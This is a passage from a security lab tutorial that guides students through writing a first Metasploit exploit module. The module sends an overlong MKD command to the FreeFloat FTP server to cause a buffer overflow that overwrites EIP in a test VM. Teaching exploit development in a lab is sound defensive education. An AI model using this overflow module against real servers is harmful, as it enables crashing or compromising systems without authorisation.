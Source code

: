 > Hint: During this testing process it will become obvious that there is a small window of lengths where the EIP is overwritten.

## Writing your first MSF exploit module {#writing-your-first-msf-exploit-module}

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Create a Metasploit exploit module, and save it as **FreeFloatMKDoverflow.rb** in **/root/.msf4/modules/exploits/windows/ftp/**:==

> Hint: To make the directory path, you can run `mkdir -p /root/.msf4/modules/exploits/windows/ftp/`

```ruby
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote

  include Msf::Exploit::Remote::Ftp  
  def initialize(info = {})

  super(update_info(info,  
	'Name' => 'FloatFTP MKD overflow',  
	'Description' => 'My first MSF exploit module',  
	'Author' => [ '==edit:Your name=='],  
	'Version' => '$Revision: 1 $',  
	'Platform' => ['win'],  
	'Targets' => [ [ 'Windows 7 Professional x64 SP1, no ASLR', { } ],],  
	'DefaultTarget' => 0,  
	'License' => GPL_LICENSE  
  ))

  end

def exploit  
  puts "My first Metasploit module!"  
  connect_login  
   
  bad = "A" * '==edit:500=='

  send_cmd( ['MKD', bad] , false )  
  disconnect  
 end  
end
```

> Note: MSF simplifies our code already, since it does the FTP authentication for us. This code is Ruby, although you do not need to be overly familiar with the Ruby programming language in order to develop exploits.

> Tip: When using msfconsole you need to run `reload_all` (or restart msfconsole) for any changes to take effect.


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/software_security_exploitation/4_exploit_development/image-14.png